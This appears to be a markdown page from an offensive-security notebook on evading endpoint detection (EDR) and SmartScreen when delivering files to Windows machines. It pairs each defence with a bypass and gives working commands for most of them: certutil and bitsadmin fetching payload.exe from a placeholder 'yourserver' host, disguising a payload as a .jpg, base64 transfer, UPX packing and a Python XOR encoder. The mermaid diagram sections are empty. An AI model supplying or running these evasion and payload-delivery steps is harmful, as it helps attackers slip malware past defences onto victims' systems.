


## **1. How EDR Prevents Downloads & Bypass Methods**

| **Prevention Mechanism**            | **Detection Method**                              | **Bypass Technique**                                |
| ----------------------------------- | ------------------------------------------------- | --------------------------------------------------- |
| **Browser Blocking**                | Flags suspicious downloads in Chrome, Edge        | Change file extension, Use HTTPS                    |
| **Windows Defender SmartScreen**    | Blocks unsigned or unknown executables            | Digitally sign the file, Modify file metadata       |
| **EDR Network Filtering**           | Detects downloads from untrusted URLs             | Use VPN, proxy, or trusted cloud storage            |
| **File Hash or Signature Scanning** | Compares downloaded files to known malware hashes | Modify binary structure, Use packing or obfuscation |
| **Process Behavior Analysis**       | Detects suspicious file execution behavior        | Use LOLBins like certutil or bitsadmin              |


---

## **2. Mermaid Diagram: Download Prevention & Evasion**



### **3. Table: Bypass Methods for Each Prevention Mechanism**

| **Prevention Mechanism**         | **Bypass Method**                              | **Example Command or Technique**                  |
|----------------------------------|-----------------------------------------------|--------------------------------------------------|
| **Browser Blocking**             | Use HTTPS and rename file                    | Rename `payload.exe` to `image.jpg`              |
| **Windows Defender SmartScreen** | Digitally sign the file                      | Sign the file using `signtool.exe`               |
| **EDR Network Filtering**        | Use a trusted cloud storage                  | Upload to Google Drive or Dropbox                |
| **File Hash or Signature Scanning** | Modify binary structure                      | Pack with UPX, encrypt sections, XOR encoding    |
| **Process Behavior Analysis**    | Use LOLBins for downloading payloads         | `certutil -urlcache -split -f http://server/payload.exe` |

### **4. Mermaid Diagram: Bypass Workflow**


---

### **5. Practical Commands for Bypassing Download Prevention**
Attackers use **Windows-native binaries (LOLBins)** and **encoding techniques** to evade detection.

#### **1. Rename File Extensions**
Some browsers block `.exe` files but allow `.jpg` or `.txt`:
```sh
mv payload.exe image.jpg
```

#### **2. Base64 Encode the Payload**
Encode before transfer:
```sh
base64 payload.exe > payload.b64
```
Decode on the target:
```sh
cat payload.b64 | base64 -d > extracted.exe
```

#### **3. Use CertUtil for Download**
https://lolbas-project.github.io/#
CertUtil is a built-in Windows tool that can download and decode files:
```sh
certutil -urlcache -split -f http://yourserver/payload.exe payload.exe
```

#### **4. Use Bitsadmin for Stealthy Download**
Bitsadmin uses Microsoft’s Background Intelligent Transfer Service (BITS), often trusted by EDR:
```powershell
bitsadmin /transfer myJob http://yourserver/payload.exe C:\Users\Public\payload.exe
```

#### **5. Obfuscate the Payload**

Attackers often modify binary structures to avoid hash-based detections:
- **Packing with UPX**:
[Attack Computer/Attack Windows/3. EDR Evasion/1e.  Advanced UPX Methods for Modifying Binary Structure](<1e.  Advanced UPX Methods for Modifying Binary Structure.md>)
```sh
  upx-ucl -9 payload.exe
```
- **XOR Encoding**:

- [Attack Computer/Attack Windows/3. EDR Evasion/1a. AES, RC4, XOR encryption](<1a. AES, RC4, XOR encryption.md>)
  ```python
  key = 0x55
  encoded = bytes([b ^ key for b in open('payload.exe', 'rb').read()])
  open('encoded.bin', 'wb').write(encoded)
  ```

---

